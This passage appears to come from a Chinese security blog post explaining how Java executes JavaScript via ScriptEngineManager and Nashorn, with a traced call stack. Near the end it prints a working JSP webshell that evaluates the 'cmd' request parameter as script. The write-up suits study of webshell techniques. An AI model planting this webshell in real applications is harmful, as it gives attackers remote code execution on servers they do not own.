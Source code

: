 [![](https://p3.ssl.qhimg.com/t0179f10a0c8e69a0e6.png)](https://p3.ssl.qhimg.com/t0179f10a0c8e69a0e6.png)

执行失败！百度了一下原因大概是因为java在执行js代码的时候没有浏览器的内置对象如：document，window等等。

[解决方法](https://blog.csdn.net/xiaozei523/article/details/58002392) 大概就是添加组件配置java解析浏览器的环境？？这样的话基本上不可能这样配置了，于是自己就没有在深入了解了。

#### <a class="reference-link" name="java%E6%89%A7%E8%A1%8Cjs%E4%BB%A3%E7%A0%81%E7%9A%84%E5%BA%95%E5%B1%82%E5%8E%9F%E7%90%86"></a>java执行js代码的底层原理

这里自己调试会很多次中间的具体流程基本上就是一个解析过程，所以只看最后。

[![](https://p3.ssl.qhimg.com/t01e6956b494b8dcb24.png)](https://p3.ssl.qhimg.com/t01e6956b494b8dcb24.png)

其实本质上还是反射。最后的调用apply:393, ScriptRuntime (jdk.nashorn.internal.runtime) 的apply方式去执行。

在看一下调用栈：

```
apply:393, ScriptRuntime (jdk.nashorn.internal.runtime)
evalImpl:449, NashornScriptEngine (jdk.nashorn.api.scripting)
evalImpl:406, NashornScriptEngine (jdk.nashorn.api.scripting)
evalImpl:402, NashornScriptEngine (jdk.nashorn.api.scripting)
eval:155, NashornScriptEngine (jdk.nashorn.api.scripting)
eval:264, AbstractScriptEngine (javax.script)
eval:24, test (shell.ScriptEngineManager)
main:17, test (shell.ScriptEngineManager)
```

**调试过程大家可以自己去测试**

而上面的加载远程js的思路是来自自己调试的过程。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d99bf455b7ffdf3f.png)

那webshell.无回显的

```
&lt;%@ page import="javax.script.ScriptEngineManager" %&gt;
&lt;%@ page import="javax.script.ScriptEngine" %&gt;
&lt;%
    ScriptEngineManager manager = new ScriptEngineManager(null);
    ScriptEngine engine = manager.getEngineByName("js");
    String payload = request.getParameter("cmd");
    engine.eval(payload);
%&gt;
```

然后不得不说java中还有一个表达式执行的,那就是EL表达式

### <a class="reference-link" name="ELProcessor"></a>ELProcessor

